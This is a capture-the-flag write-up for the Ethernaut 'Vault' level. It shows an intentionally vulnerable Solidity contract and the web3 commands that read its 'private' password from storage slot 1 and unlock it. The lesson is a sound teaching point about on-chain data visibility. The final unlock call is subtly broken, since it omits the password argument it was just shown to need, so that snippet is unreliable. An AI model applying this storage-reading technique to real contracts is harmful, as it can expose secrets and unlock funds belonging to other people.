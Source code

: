 # Level 8: Vault

This is the level 8 of [Ethernaut](https://ethernaut.openzeppelin.com/) game.

## Pre-requisites
- [Layout of state variables](https://docs.soliditylang.org/en/v0.8.10/internals/layout_in_storage.html) in Solidity
- [Reading storage](https://web3js.readthedocs.io/en/v1.5.2/web3-eth.html#getstorageat) at a slot in contract

## Hack

Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

`player` has to set `locked` to false.

Only way is by calling `unlock` by correct password.

Although `password` state variable is private, one can still read a storage variable by determining it's storage slot. Therefore sensitive information should not be stored on-chain, even if it is specified `private`.

Above, the `password` is at a storage slot of 1 in `Vault`.

Let's read it:

```javascript
password = await web3.eth.getStorageAt(contract.address, 1)
```

Call `unlock` with `password`:

```javascript
await contract.unlock()
```

Unlocked. Verify by:

```javascript
await contract.locked() === false
```

And that's it.

_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/heyNvN)_ 🙏
